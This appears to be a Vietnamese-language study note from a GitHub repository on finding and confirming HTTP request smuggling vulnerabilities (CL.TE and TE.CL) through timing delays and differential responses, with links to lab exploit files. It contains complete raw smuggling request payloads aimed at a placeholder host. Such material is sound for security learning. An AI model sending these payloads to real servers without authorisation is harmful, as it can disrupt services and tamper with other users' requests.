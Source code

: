 # Finding HTTP request smuggling vulnerabilities.

## Finding HTTP request smuggling vulnerabilities using timing techniques.

- Cách hiệu quả nhất để phát hiện các lỗ hổng HTTP request smuggling là gửi các yêu cầu sẽ gây ra sự chậm trễ trong thời gian phản hồi của ứng dụng nếu có lỗ hổng.

### Finding CL.TE vulnerabilities using timing techniques.

- Nếu một ứng dụng dễ bị tấn công bởi CL.TE của request smuggling, thì việc gửi một yêu cầu như sau thường sẽ gây ra sự chậm trễ về thời gian:
```
POST / HTTP/1.1
Host: vulnerable-website.com
Transfer-Encoding: chunked
Content-Length: 4

1
A
X
```
- Vì máy chủ front-end sử dụng *Content-Length*, nó sẽ chỉ chuyển tiếp một phần của yêu cầu này, bỏ qua X. Máy chủ back-end sử dụng *Transfer-Encoding*, xử lý đoạn đầu tiên và sau đó đợi đoạn tiếp theo đến. Điều này sẽ gây ra độ trễ thời gian.

### Finding TE.CL vulnerabilities using timing techniques.

- Nếu một ứng dụng dễ bị tấn công bởi TE.CL, thì việc gửi một yêu cầu như sau thường sẽ gây ra sự chậm trễ về thời gian:
```
POST / HTTP/1.1
Host: vulnerable-website.com
Transfer-Encoding: chunked
Content-Length: 6

0

X
```
- Vì máy chủ front-end sử dụng *Transfer-Encoding*, nó sẽ chỉ chuyển tiếp một phần của yêu cầu này, bỏ qua X. Máy chủ back-end sử dụng *Content-Length*, mong đợi nhiều nội dung hơn trong nội dung thư và đợi nội dung còn lại đến. Điều này sẽ gây ra độ trễ thời gian.

## Confirming HTTP request smuggling vulnerabilities using differential responses.

- Khi một lỗ hổng request smuggling đã được phát hiện, bạn có thể thu thập thêm bằng chứng về lỗ hổng bằng cách khai thác nó để kích hoạt sự khác biệt trong nội dung phản hồi của ứng dụng. Điều này liên quan đến việc gửi liên tiếp hai yêu cầu đến ứng dụng:

	+ Yêu cầu "attack" được thiết kế để can thiệp vào việc xử lý yêu cầu tiếp theo.
	+ Một yêu cầu "normal".
- Nếu phản hồi đối với yêu cầu thông thường chứa nhiễu dự kiến, thì lỗ hổng bảo mật được xác nhận.
```
POST /search HTTP/1.1
Host: vulnerable-website.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 11

q=smuggling
```

- Yêu cầu này thường nhận được phản hồi HTTP với mã trạng thái 200, chứa một số kết quả tìm kiếm.
- Yêu cầu tấn công cần thiết để can thiệp vào yêu cầu này phụ thuộc vào biến thể hiện có: CL.TE vs TE.CL.

### Confirming CL.TE vulnerabilities using differential responses.

```
POST /search HTTP/1.1
Host: vulnerable-website.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 49
Transfer-Encoding: chunked

e
q=smuggling&x=
0

GET /404 HTTP/1.1
Foo: x
```

- Nếu cuộc tấn công thành công, thì hai dòng cuối cùng của yêu cầu này được máy chủ back-end coi là thuộc về yêu cầu tiếp theo được nhận. Điều này sẽ khiến yêu cầu "normal" tiếp theo trông giống như sau:
```
GET /404 HTTP/1.1
Foo: xPOST /search HTTP/1.1
Host: vulnerable-website.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 11

q=smuggling
```

- Vì yêu cầu này hiện chứa một URL không hợp lệ, máy chủ sẽ phản hồi với mã trạng thái 404, cho biết rằng yêu cầu tấn công đã thực sự can thiệp vào nó.

- Lab:
	+ Lab: HTTP request smuggling, confirming a CL.TE vulnerability via differential responses.[exploit](exploit/lab4.txt)

### Confirming TE.CL vulnerabilities using differential responses.

```
POST /search HTTP/1.1
Host: vulnerable-website.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 4
Transfer-Encoding: chunked

7c
GET /404 HTTP/1.1
Host: vulnerable-website.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 144

x=
0
```
- Nếu cuộc tấn công thành công, thì mọi thứ từ *GET /404* sau trở đi sẽ được máy chủ back-end coi là thuộc về yêu cầu tiếp theo được nhận. Điều này sẽ khiến yêu cầu "normal" tiếp theo trông giống như sau:

```
GET /404 HTTP/1.1
Host: vulnerable-website.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 146

x=
0

POST /search HTTP/1.1
Host: vulnerable-website.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 11

q=smuggling
```

- Vì yêu cầu này hiện chứa một URL không hợp lệ, máy chủ sẽ phản hồi với mã trạng thái 404, cho biết rằng yêu cầu tấn công đã thực sự can thiệp vào nó.

- Lab:
	+ Lab: HTTP request smuggling, confirming a TE.CL vulnerability via differential responses.[exploit](exploit/lab5.txt)